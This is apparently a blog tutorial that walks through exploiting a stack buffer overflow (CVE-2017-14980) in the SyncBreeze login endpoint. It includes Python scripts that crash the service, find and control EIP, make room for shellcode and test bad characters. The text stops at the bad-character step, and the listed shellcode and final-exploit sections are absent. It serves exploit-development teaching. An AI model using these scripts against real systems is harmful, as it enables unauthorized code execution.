## Table of Contents
1. [Introduction](#introduction)
2. [Setup](#setup)
3. [Crushing Syncbreeze](#crushing-syncbreeze)
4. [Typical Protection mechniams ASLR, DEP, CFG](#typical-protection-mechniams-aslr-dep-cfg)
5. [Let's control EIP](#lets-control-eip)
6. [Finding the EIP offset — two simple methods](#finding-the-eip-offset--two-simple-methods)
7. [Shellcode space](#343-shellcode-space)
8. [Checking for Bad Characters](#checking-for-bad-characters)
9. [Redirecting Execution Flow](#redirecting-execution-flow)
10. [Finding a Return Address](#finding-a-return-address)
11. [Generating Shellcode with Metasploit](#347-generating-shellcode-with-metasploit)
12. [Getting a Shell](#getting-a-shell)
13. [Final Exploit](#final-exploit)
14. [Testing the Exploit](#testing-the-exploit)


## Introduction

When I consider certain CVEs, such as the one affecting SyncBreeze, it sometimes feels less like a traditional vulnerability and more like an anomaly deliberately left in the software. I don't mean to sound like a conspiracy theorist, but occasionally, some flaws are so glaringly obvious that they make you wonder if they were simply meant to be discovered. The CVE we'll explore in this blog is a prime example—its nature is so peculiar and seemingly trivial that it challenges your assumptions about software development, security practices, and the meticulousness of coding standards.

CVE-2017-14980 is a buffer overflow vulnerability identified in SyncBreeze Enterprise version 10.0.28. This flaw arises from improper handling of the `username` parameter during the login process. An attacker can exploit this by sending an excessively long `username` value to the `/login` endpoint, leading to a stack-based buffer overflow. Successful exploitation can result in arbitrary code execution within the context of the affected application, potentially compromising the system's integrity. The vulnerability has been assigned a CVSS v3.0 base score of 9.8 (Critical), reflecting its severity and the ease with which it can be exploited remotely without authentication. This incident underscores the importance of rigorous input validation and boundary checking in software development to prevent such critical vulnerabilities.


## Setup

This blog does not focus on setting up the environment in detail, as the primary goal is to demonstrate the exploitation process. The exploit itself targets a standard Windows operating system, so most of the tools and steps are applicable to typical setups. For clarity, here is the environment I used while working on this exploit.

I deployed a Windows 10 virtual machine on a Proxmox server, which served as the platform for debugging the SyncBreeze application. I specifically downloaded SyncBreeze version 10.0.28, which is vulnerable to CVE-2017-14980. Since this version is no longer available on the official SyncBreeze website, I obtained it from the Exploit-DB archive [here](https://www.exploit-db.com/apps/959f770895133edc4cf65a4a02d12da8-syncbreezeent_setup_v10.0.28.exe).  

To monitor the SyncBreeze process and gain insights into its behavior, I installed **Procmon** from the Windows Sysinternals Suite ([download link](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)). This allowed me to observe which modules and DLLs were loaded and how the application interacted with the system.  

During exploit development, SyncBreeze would crash repeatedly. To manage this efficiently, I used `services.msc` to quickly restart the service each time it crashed.  

On the attacker's side, I used a Kali Linux machine with **Metasploit** and `msfconsole` for generating shellcode, encoding payloads, and identifying jump addresses. For Windows-specific debugging, I relied on **WinGDB**, an excellent tool for analyzing memory layouts and understanding address mappings.  

Finally, I used a simple text editor like Notepad to write and organize the exploit code. Aside from the specific SyncBreeze version mentioned, all other tools and steps are applicable to standard, up-to-date installations of Windows and related software.


## Crushing Syncbreeze

After downloading and installing SyncBreeze, enable the **Web Server** from the application's Advanced options. By default this listens on port 80. 



Once enabled you should be able to reach the web UI at `http://<SYNC_BREEZE_WORKSTATION>:80/login` — for my lab the service was available at `http://192.168.1.13:80/login`.



As pentesters, our next step is normally fuzzing and testing input fields such as `username` and `password`. In this case, repeated probing revealed a buffer-overflow condition in the `username` parameter on the `/login` endpoint — and that is where the interesting work begins.

For debugging I attached **WinDbg** to the SyncBreeze process (run WinDbg as Administrator and enable “Show processes from all users” to find the `syncbrs.exe` entry). 





When you attach, WinDbg will break execution by default; use the `g` command to resume the process and let it keep running while you perform network tests. 



Because SyncBreeze runs as a service and crashes frequently during exploit development, I used `services.msc` to restart the service quickly between attempts.



Below is a simple Python script used in the lab to trigger the overflow by sending a deliberately large `username` value in an HTTP POST. After executing this against the SyncBreeze instance (make sure you target only systems you own or have authorization to test), the application should crash and WinDbg will typically report an access-violation type error — analogous to a segmentation fault in Unix-style programs.

```python
import socket
import sys

try:
    server = sys.argv[1]
    port = 80

    size = 800
    inputBuffer = b"A" * size
    content = b"username=" + inputBuffer + b"&password=A"

    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
    buffer += b"Referer: http://10.11.0.22/login\r\n"
    buffer += b"Connection: close\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Content-Length: " + str(len(content)).encode() + b"\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending evil buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.sendall(buffer)
    s.close()
    print("Done!")
except socket.error:
    print("Could not connect!")
```

The script crafts a malicious HTTP `POST /login` request whose body contains an oversized `username` field. The oversized payload is intended to overflow a buffer in the SyncBreeze login handler and cause the process to crash (or, in other contexts, to enable code-execution). This version is a simple crash-trigger and not a polished exploit. The script expects the target host/IP as a command-line argument. It opens a TCP socket to the target on port 80 (the HTTP port) and establishes a connection before sending the HTTP request. A byte buffer `inputBuffer` is created by repeating a single byte (`"A"`) many times. That buffer is concatenated into a URL-encoded form payload (e.g., `username=<big-buffer>&password=A`). The script computes the payload length and inserts it into the `Content-Length` header so the HTTP request is well-formed from the server’s perspective.The script assembles the HTTP request line and headers (Host, User-Agent, Accept, Referer, Connection, Content-Type, Content-Length). After the blank line that separates headers from body, the script appends the crafted form body containing the oversized `username`. The full request is sent over the socket using `sendall`. The socket is then closed and the script prints status messages to indicate the request was sent. If the target application does not properly validate or bound the `username` input, the oversized buffer will overwrite adjacent memory and destabilize the process. In a debugger (WinDbg) this typically shows up as an **Access Violation** (attempt to read/write an invalid memory address) and the process will crash. From that point, a researcher can inspect registers, stack, and module base addresses to understand how the overflow corrupted memory.






## Typical Protection mechniams ASLR, DEP, CFG

Before diving deeper, here are concise, plain-English explanations of three common binary-level protections you’ll often hear about when discussing Windows application hardening.

### ASLR (Address Space Layout Randomization)  
ASLR randomizes the memory addresses used by an application each time it runs (for example where the executable, DLLs, heap, and stack are placed). The goal is to make it much harder for an attacker to predict where useful code or data lives, so simple hard-coded return-oriented or jump-to-fixed-address exploits become unreliable. ASLR is effective when binaries and their dependencies are compiled/linked with support for relocation, but it can be weakened by information leaks, non-randomized modules, or partial/randomization settings.

### DEP / NX (Data Execution Prevention / No-eXecute)  
DEP marks certain memory regions as non-executable (for example the heap and stack), preventing code from running out of those areas. That stops classic “inject shellcode onto the stack and jump to it” attacks. Modern exploitation typically tries to chain existing executable code (return-oriented programming) to bypass DEP, so DEP is necessary but not always sufficient by itself.

### CFG (Control Flow Guard)  
Control Flow Guard is a Microsoft mitigation that verifies indirect function calls at runtime against a list of valid targets (a control-flow integrity check). If an attacker tries to divert execution to an unexpected target (as many ROP/JOP and code-reuse techniques do), CFG will detect the mismatch and crash the process. CFG raises the bar for reliable code-reuse exploits, but like other mitigations, it can be undermined if an attacker finds a legitimate target that still achieves their goals, or if modules are not built with CFG support.

Earlier — that it felt almost like a backdoor — I wasn’t literally accusing anyone of sabotage. What I meant is this: for an enterprise-grade product to ship and run in production with such blatant input-handling failures *and* apparently without standard PE protections enabled is alarming. Input validation is foundational; ASLR/DEP/CFG are baseline defenses for modern Windows builds. The absence (or misconfiguration) of these controls makes even low-skill exploits trivial to develop and deploy.


## Let's control EIP

**EIP** (Extended Instruction Pointer) is the 32-bit register on x86 that holds the address of the next instruction to execute. (On x86_64 the equivalent is **RIP**.)

### Why controlling EIP matters
- **Redirect execution:** Overwriting EIP lets an attacker point execution to their code or a ROP gadget.  
- **Turn a crash into an exploit:** A crash shows a bug; controlling EIP is the step that converts that bug into a controlled jump.  
- **Offset & precision:** You must place the exact bytes at the exact offset to overwrite EIP (on x86 EIP = 4 bytes; little-endian ordering).  
- **Mitigations matter:** ASLR, DEP, and CFG make reliable control harder — you may need ROP or other techniques after gaining EIP control.  
- **Quick check in debugger:** If EIP contains your pattern (e.g. `0x41414141`) after a crash, you’ve proven control.

**Short:** controlling EIP is the lever that turns a buffer overflow from a crash into program-flow control.


## Finding the EIP offset — two simple methods

There are two common approaches to find where the 4-byte EIP overwrite occurs.

### 1. Binary-split (divide-and-conquer) method
Send a buffer split into two distinct halves (e.g. `400 "A"` + `400 "B"`).  
- If EIP contains `B`s, the overwrite is in the second half; if it contains `A`s, it’s in the first.  
- Repeat by splitting the suspect half (e.g. `200 "B"` + `200 "C"`) until you narrow it down to the exact 4 bytes.  
This is simple and reliable but can take multiple iterations.

### 2. Non-repeating pattern method (faster)
Send a long, non-repeating pattern made of unique 4-byte chunks.  
- When the crash occurs, the 4 bytes loaded into EIP will match a unique substring of that pattern.  
- Use a pattern-search tool to convert that 4-byte value into the exact offset.  
This is faster and widely used.

**Tool tip:** The Metasploit Framework provides `pattern_create.rb` (and `pattern_offset.rb`) to generate non-repeating patterns and find offsets from the crashed EIP value.

The `pattern_create` utility from Metasploit generates a long, non-repeating string of 4-byte chunks.  
You send this string to the vulnerable input, cause a crash, then use the 4 bytes found in EIP with `pattern_offset` to get the exact overwrite offset.

> **Use only against systems you own or are authorized to test.**

```bash
kali@kali:~$ msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac
8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1......
```

With our payload generated, lets update our exploit

```bash
    server = sys.argv[1]
    port = 80
    size = 800
    
    inputBuffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab ...<SNIP>..."
    content = b"username=" + inputBuffer + b"&password=A"
  <SNIP>...
```

When we restart SyncBreeze and run the exploit again, EIP shows a new value: 



`42306142` (that’s the hex for the ASCII string `B0aB`).  That tells us the 4 bytes that overwrote EIP came from our test pattern. 
Use the companion tool `pattern_offset` to find the exact position of those four bytes inside the original pattern. On Kali you can run it from anywhere using the Metasploit helper command:



```bash
msf-pattern_offset -l 800 -q 42306142
[*] Exact match at offset 780
```

The `msf-pattern_offset` tool says those 4 bytes are at **offset 780** in the 800-byte pattern.  
So we build a test payload that puts the exact 4 bytes we want into EIP:

- Send **780** `"A"` characters (fills everything before the EIP overwrite)  
- Then **4** `"B"` characters (these should become the value in EIP — `0x42424242`)  
- Then **16** `"C"` characters (filler/padding after EIP)

Put simply: `A * 780 + B * 4 + C * 16` — when this reaches the target, the four `B`s should overwrite EIP exactly.

```bash
#!/usr/bin/python
import socket
import sys
try:
  server = sys.argv[1]
  port = 80
  size = 800
  
  filler = b"A" * 780
  eip = b"B" * 4
  buf = b"C" * 16
  inputBuffer = filler + eip + buf
  content = b"username=" + inputBuffer + b"&password=A"
<SNIP>...
```

This time, when the web server crashes, the buffer is structured correctly — EIP now contains our four `B`s (`0x42424242`).  



This means we have full control of the EIP register and can control the program’s execution flow. Next, we need to replace the `0x42424242` placeholder with a valid address that points to the code we want to run.


### 3.4.3 Shellcode space

We now control EIP, but we need to decide **where** to redirect execution. The goal is to run our own code on the target, usually a reverse shell or custom payload.

To do this, we include the shellcode in the input buffer that triggers the crash, injecting it into the process memory. Shellcode is a small set of assembly instructions that performs the attacker’s desired action (like opening a reverse or bind shell).

From our previous crash, we see that the **ESP register points to the buffer of `C`s**, which gives us a suitable location to place our shellcode. We will use the Metasploit Framework to generate this payload.





Since we can access this location at crash time using the address in **ESP**, it’s a convenient spot to place our shellcode.  

Looking at the stack during the crash, the first four `C`s from our buffer are at `0x00567458`. The **ESP** register currently points to `0x0056745c`, which is where the next four `C`s from the buffer are located.

A typical reverse shell payload needs around 350–400 bytes, but our current buffer only has 16 `C`s — not enough space for shellcode.  

We can fix this by increasing the buffer in our exploit from **800 bytes to 1500 bytes**. This gives enough room for the shellcode while still triggering the overflow correctly.  

For now, we’ll use `D` characters as placeholders where the shellcode will go.

```bash
#!/usr/bin/python
import socket
import sys
try:
  server = sys.argv[1]
  port = 80
  size = 800
  
  filler = b"A" * 780
  eip = b"B" * 4
  offset = b"C" * 4
  shellCode = b"D" * (1500 - len(filler) - len(eip) - len(offset))
  inputBuffer = filler + eip + offset + shellCode
  content = b"username=" + inputBuffer + b"&password=A"
<SNIP>...
```

Running this proof of concept causes a similar crash in the debugger. This time, **ESP points to the `D` characters** (`0x44` in hex), which are acting as placeholders for our shellcode.  



This gives us much more space — about **712 bytes** — to place our shellcode.  



Note: the **ESP address changes** each time we run the exploit, but it still points into our buffer. We’ll handle this issue later, but first we need to tackle another challenge.

### Checking for Bad Characters
Certain characters can disrupt exploit functionality depending on the application, vulnerability type, and protocols involved. 
A character is "bad" if it prevents the crash, alters its behavior, or becomes corrupted in memory.

#### Common Bad Characters

The **null byte (`0x00`)** is a classic example. In C/C++, it terminates strings, causing copy operations to stop at the first null byte and truncating our buffer prematurely.

Since we're exploiting via an HTTP POST request, we must also avoid **`0x0D` (carriage return)**, which terminates HTTP fields and would cut off our username parameter.

#### Testing for Bad Characters

To identify bad characters, we send all possible byte values (`0x01` to `0xFF`) in our buffer and observe which ones corrupt or truncate our payload.

We'll modify our exploit to include a complete character set, excluding the known bad null byte:

```python
#!/usr/bin/python
import socket
import sys

try:
    server = sys.argv[1]
    port = 80
    
    filler = b"A" * 780
    eip = b"B" * 4
    offset = b"C" * 4
    
    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
        b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
        b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
        b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
        b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
        b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
        b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
        b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
        b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    )
    
    inputBuffer = filler + eip + offset + badchars
    <SNIP>...
```

After crashing the application, we examine ESP to see which characters survived:

